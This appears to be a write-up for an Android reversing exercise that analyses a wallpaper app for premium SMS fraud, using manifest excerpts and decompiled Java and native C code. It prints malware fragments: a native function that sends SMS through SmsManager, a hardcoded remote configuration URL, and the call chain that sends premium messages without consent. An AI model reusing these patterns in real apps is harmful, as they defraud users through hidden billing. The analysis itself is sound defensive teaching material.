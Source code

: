 # Exercise 6 - Find and Reverse the Native Function

## Goals:

The goal of this exercise is to put all of our Android reversing skills together to analyze an app as a whole: its DEX and native code.

## Context

You are a malware analyst for Android applications. You are concerned that this sample maybe doing premium SMS fraud, meaning that it sends an SMS to a premium phone number without disclosure & user consent. In order to flag as malware, you need to determine if the Android application is:

- [x] Sending an SMS message, and
- [x] That SMS message is going to a premium number, and
- [x] If there is an obvious disclosure, and
- [x] If the SMS message is only sent to the premium number after user consent.

## Instructions

- [x] Go on and reverse!

### Entrypoints

#### Launcher

```xml
<activity android:theme="@style/ActionBarTheme" android:label="@string/app_name" android:name="com.mbv.a.wp.TabWallPaperListActivity" android:configChanges="keyboardHidden|orientation|screenSize">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

#### Exports

```xml
<activity android:name="com.facebook.CustomTabActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="@string/fb_login_protocol_scheme"/>
    </intent-filter>
</activity>

<receiver android:name="com.mbv.a.sdklibrary.receiver.ReReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.android.vending.INSTALL_REFERRER"/>
    </intent-filter>
</receiver>

<receiver android:name="com.mbv.a.sdklibrary.receiver.Alarmreceiver" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
        <action android:name="com.mbv.a.restart_action"/>
    </intent-filter>
</receiver>

<service android:name="com.mbv.a.sdklibrary.service.SdkService" android:enabled="true">
    <intent-filter android:priority="1000">
        <action android:name="com.mbv.a.servicce"/>
    </intent-filter>
</service>
```

### Analysis

The launcher does some funky stuff if it has `SEND_SMS` permissions.

```java
// mbv/a/wp/TabWallPaperListActivity
public void onCreate(Bundle bundle) {
    /* lines omitted for clarity */
    b();
    if (j.a(this, "android.permission.SEND_SMS")) {
        a.c();
    } else if (Build.VERSION.SDK_INT >= 23) {
        requestPermissions(new String[]{"android.permission.SEND_SMS"}, 0);
    }
    a.a((Activity) this);
}
```

The `b` function does some funky stuff with an HTTP get. Specifically, the first argument of `JniManager.nativeApktype()` should be returning a URL for the HTTP get and it is a native binary call, which seems sketchy. The `com/mbv/a/sdklibrary/manager/JniManager.java` file contains the code for this. That file performs `System.loadLibrary("oc_helper");`.

```java
private void b() {
    HashMap hashMap = new HashMap();
    hashMap.put("sc", "1860001");
    hashMap.put("kw", "01");

    AsyncHttpGet.get(JniManager.nativeApktype(), hashMap, new com.mbv.a.sdklibrary.net.b() {
        /* class com.mbv.a.wp.TabWallPaperListActivity.AnonymousClass4 */

        public void a(Exception exc, byte[] bArr) {
            if (exc == null && bArr != null) {
                String str = new String(bArr);
                if (!TextUtils.isEmpty(str)) {
                    try {
                        JSONObject jSONObject = new JSONObject(str);
                        if (jSONObject != null) {
                            Iterator<String> keys = jSONObject.keys();
                            ArrayList arrayList = new ArrayList();
                            while (keys.hasNext()) {
                                b bVar = new b();
                                String obj = keys.next().toString();
                                bVar.a(obj);
                                bVar.b(jSONObject.getString(obj));
                                arrayList.add(bVar);
                            }
                            com.mbv.a.wp.b.a.a().a(arrayList);
                            if (arrayList.size() > 0) {
                                TabWallPaperListActivity.this.runOnUiThread(new Runnable() {
                                    /* class com.mbv.a.wp.TabWallPaperListActivity.AnonymousClass4.AnonymousClass1 */

                                    public void run() {
                                        TabWallPaperListActivity.this.a();
                                    }
                                });
                            }
                        }
                    } catch (JSONException e) {
                        e.printStackTrace();
                    }
                }
            }
        }
    });
}
```

### Native binary analysis

Analysis of `nativeApktype` reveals that the function returns a URL of `http://m.news-adding.com/index/ApkType.

```C
void Java_com_mbv_a_sdklibrary_manager_JniManager_nativeApktype(JNIEnv *param_1)
{
  (*(*param_1)->NewStringUTF)((JNIEnv *)param_1,"http://m.news-adding.com/index/ApkType");
  return;
}
```

Additionally, the `nativesend` function invokes the Java sendTextMessage function from a native library:

```C
void Java_com_mbv_a_sdklibrary_manager_JniManager_nativesend
               (JNIEnv *param_1,undefined4 param_2,undefined4 param_3,undefined4 param_4)

{
  jclass clazz;
  jmethodID p_Var1;
  _jobject *p_Var2;
  
  clazz = (*(*param_1)->FindClass)((JNIEnv *)param_1,"android/telephony/SmsManager");
  if (clazz != (jclass)0x0) {
    p_Var1 = (*(*param_1)->GetStaticMethodID)
                       ((JNIEnv *)param_1,clazz,"getDefault","()Landroid/telephony/SmsManager;");
    p_Var2 = (_jobject *)
             CallStaticObjectMethod((_JNIEnv *)param_1,(_jclass *)clazz,(_jmethodID *)p_Var1);
    p_Var1 = (*(*param_1)->GetMethodID)
                       ((JNIEnv *)param_1,clazz,"sendTextMessage",
                                                
                        "(Ljava/lang/String;Ljava/lang/String;Ljava/lang/String;Landroid/app/PendingIntent;Landroid/app/PendingIntent;)V"
                       );
    if (p_Var1 != (jmethodID)0x0) {
      CallVoidMethod((_JNIEnv *)param_1,p_Var2,(_jmethodID *)p_Var1,param_3,0,param_4,0,0);
    }
  }
  return;
}
```

### Continued Java analysis

So because `nativesend` is able to send a text message, we need to determine whether it is a Premium message and whether consent was given. Here is the only spot that `nativesend` is called.

```Java
// mbv/a/sdklibrary/manager/JniManager.java
public boolean a(String str, String str2) {
    if ((b.a().b(str + "_" + str2) != null && b.a().b(str + "_" + str2).equals("true")) || !this.f688a) {
        return true;
    }
    try {
        nativesend(str, str2);
        a.a().c();
        b.a().a(str + "_" + str2, "true");
    } catch (Exception e) {
        g.a(e.getMessage());
    }
    return false;
}
```

Searching for places where the JniManager function `a` is called, we find:

```
egrep -R "JniManager.*a\(" *
HDWallpaper/sources/com/mbv/a/sdklibrary/a/a/a.java:            if (JniManager.a().a(poll.getMt_shortcode(), poll.getMt_keyword())) {
HDWallpaper/sources/com/mbv/a/sdklibrary/a/a/a.java:        JniManager.a().b().postDelayed(new Runnable() {
HDWallpaper/sources/com/mbv/a/sdklibrary/manager/JniManager.java:    public static JniManager a() {
HDWallpaper/sources/com/mbv/a/sdklibrary/a.java:        JniManager.a().a(context);
HDWallpaper/sources/com/mbv/a/sdklibrary/a.java:        JniManager.a().c();
```

The first one of those is promising, and the code is shown below:

```Java
// mbv/a/sdklibrary/a/a/a.java
public void d() {
    if (this.b != null && this.b.size() > 0) {
        CodeData poll = this.b.poll();
        if (JniManager.a().a(poll.getMt_shortcode(), poll.getMt_keyword())) {
            a(200);
        } else {
            a(2000);
        }
    }
}
```

This is a clear case of a Premium message getting sent, but is it consentual? I believe the answer to be *no*. This function is called via a chain of function calls that appears to be initiated upon construction of the frame layout. There is a check for SMS permissions in the launcher to insure that the premium SMS fraud will work.

